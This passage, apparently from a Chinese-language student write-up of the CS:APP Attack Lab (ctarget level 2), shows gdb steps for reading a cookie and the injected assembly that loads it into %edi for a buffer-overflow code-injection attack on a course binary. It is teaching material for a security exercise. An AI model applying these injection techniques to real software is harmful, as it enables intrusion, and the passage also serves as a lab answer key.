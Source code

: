 ```
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>

```


可见touch2()的入口地址为0x4017ec




建立level2答案文件ctarget_l2.txt


用以下命令将ctarget_l2.txt 转换为ctarget_l2-raw.txt --保存输入getbuf()的字符串
```
./hex2raw < ctarget_l2.txt > ctarget_l2-raw.txt

```

首先在touch2()中设置断点


```
break *0x4017ec
```

输入 

```
run -q < ctarget_l2-raw.txt 
```
打印出cookie的值 8个字节
```
x/8xb 0x6044e4 #显示0x6044e4（address）处8个(n)1字节(u)的内容，以十六进制(x)表示；
0x6044e4 <cookie>:	0xfa	0x97	0xb9	0x59	0x00	0x00	0x00	0x00

```

生成level2的需要注入的代码，首先建立一个ctarget_l2.s文件输入将touch2的%edi(输入参数val)置为cookie的值


```
mov    0x202ce2(%rip),%edi
ret
```

以上代码会出现Program received signal SIGSEGV, Segmentation fault。原因是%rip的值在不同程序中不同，所以会指向空指针，将cookie的值直接复制给%edi
```
mov    $0x59b997fa,%edi
ret
```
